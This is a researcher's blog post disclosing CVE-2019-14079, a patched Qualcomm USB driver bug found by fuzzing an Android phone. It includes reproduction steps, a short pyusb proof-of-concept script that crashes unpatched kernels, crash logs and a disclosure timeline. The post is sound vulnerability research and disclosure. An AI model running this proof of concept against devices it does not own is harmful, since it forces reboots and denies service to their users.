 # USB device fuzzing on Android (CVE-2019-14079)

This blog post is about a simple bug I found in my android device(MI A2 - runs stock android) using USB device fuzzing and was marked as high severity by google. The bug was in Qualcomm USB driver which was later patched and disclosed in March 2020 Android bulletin. About the vulnerability, when you send a crafted USB requests to the android phone it crashes the android kernel and your phone restarts.

This bug was due to an uninitialized variable used in USB gadget "core.c".  Details about the vulnerability can be found in the below Qualcomm security advisory and android march 2020 bulletin.

https://www.qualcomm.com/company/product-security/bulletins/march-2020-bulletin

## Technical Overview
Android phones support both device and host modes, in device mode you can connect your mobile to a PC using an USB cable and share images, music from your phone to PC with different USB connectivity modes(like only charging, MTP).
In Host mode you can connect a headset, flash drive using an OTG cable where your devices act as a client and your android phone acts as a host.

The vulnerability was found by just randomizing the USB control parameters such as bmRequestType, bRequest,wValue(bDescriptortype:DescriptorIndex),wIndex and wLength and sending it to the Android device. By sending a sequence of control requests from the Linux host to Android (as seen in the script below), the USB device driver in the phone parses it and causes a kernel panic. 

You can check this below video to understand about USB overview and fuzzing by Andrey Konovalov in Offensive-con 2019 and also the USB protocol basics: USB 101: An Introduction to Universal Serial Bus 2.0.

https://www.youtube.com/watch?v=1MD5JV6LfxA

Affected Chipsets: APQ8009, APQ8053, MDM9607, MDM9640, MSM8909W, MSM8953, QCA6574AU, QCS605, SDA845, SDM429, SDM429W, SDM439, SDM450, SDM632, SDM670, SDM710, SDM845, SDX24, SM8150, SXR1130

Steps to reproduce this vulnerability if you have not updated your phone with Android March 2020 patch.
- Connect your android mobile to Linux PC(Ubuntu).
- Verify no USB debugging is enabled in your mobile.
- Device must be connected in normal charging mode .
- In Ubuntu host, the android connects as USB device and gets detected as SDMxxx SN:xxxxxx.
- Check your dmesg logs or lsusb to identify your device.
- Note the VID and PID as per your device using lsusb and use it in the below script.
- Run the below python script in your linux PC with pyusb installed.
If you see your phone restarts, then you have exploited the bug.
You can check your kernel logs for the below messages after restart using logcat or bugreport.

#### POC

```
#!/usr/bin/env python3
import usb.core

dev = usb.core.find(idVendor=0x2717, idProduct=0xff40) 

send = dev.ctrl_transfer(0x80,0,0x0000,0x00,0000) 
send = dev.ctrl_transfer(0x81,0,0x0000,0x00,0000) 
send = dev.ctrl_transfer(0x82,0,0x0000,0x00,0000) 
print("Received: " + str(send))
```

#### Crash Logs

```
[  314.639049] Kernel BUG at ffffff95d9f3ca20 [verbose debug info unavailable]
[  314.639054] Internal error: Oops - BUG: 96000044 [#1] PREEMPT SMP
[  314.639060] Modules linked in: wlan(O)
[  314.639074] CPU: 2 PID: 115 Comm: kworker/u17:1 Tainted: G           O    4.4.153-perf+ #1
[  314.639080] Hardware name: Qualcomm Technologies, Inc. SDM 660 PM660 + PM660L MTP (DT)
[  314.639100] Workqueue: dwc_wq dwc3_bh_work
[  314.639107] task: ffffffc1f7470e00 task.stack: ffffffc1f747c000
[  314.639114] PC is at dwc3_gadget_giveback+0x84/0x1ec
[  314.639121] LR is at dwc3_ep0_stall_and_restart+0x64/0x84
[  314.639126] pc : [<ffffff95d9f3ca20>] lr : [<ffffff95d9f41ae8>] pstate: 804001c5
[  314.639129] sp : ffffffc1f747fbd0
[  314.639133] x29: ffffffc1f747fbd0 x28: ffffffc174099020 
[  314.639141] x27: ffffff95db082010 x26: 000000000000c040 
[  314.639148] x25: ffffffc174099020 x24: ffffff95db806000 
[  314.639156] x23: 0000000000000000 x22: ffffffc1f613da00 
[  314.639164] x21: ffffffc174099020 x20: ffffffc1f613da00 
[  314.639172] x19: ffffffc174099070 x18: 0000000000000010 
[  314.639179] x17: 0000007b609c9578 x16: ffffff95da4be634 
[  314.639186] x15: aaaaaaaaaaaaaaab x14: 0fffffffffffffff 
[  314.639193] x13: 0000000000000008 x12: 0101010101010101 
[  314.639200] x11: 7f7f7f7f7f7f7fff x10: 3952455531fffffe 
[  314.639208] x9 : ffffffffffffffff x8 : 0000000000808000 
[  314.639215] x7 : 0080800000000000 x6 : ffffff95dbbf8852 
[  314.639222] x5 : 3a534656330100ff x4 : 0000000000000001 
[  314.639230] x3 : 000000000000000a x2 : 00000000ffffff98 
[  314.639237] x1 : dead000000000100 x0 : dead000000000200 
```
## Next Steps
Moreover the crash logs doesnt explains the reason behind the crash. So I am planning to add KASAN to the build in my new pixel and improve my device fuzzing with proper instrumentation techniques such as monitoring the logs for crashes while fuzzing. Also libusb does not allows to issue  large control requests and most of times it gets trimmed down. So I am planning to try with kate temkin example(fusee_gelee) of using ioctl to issue commands directly to the USB driver.  

## Timeline
- The issue was reported to Android VRP in August 2019.
- Qualcomm patched it in March 2020. 

## Motivation and Thanks to
- My Mentor(Durga Prasad Sahoo - https://github.com/break2make)
- NCC for USB device fuzzing
- @ktemkin for her nice USB bug in Nintendo Switch
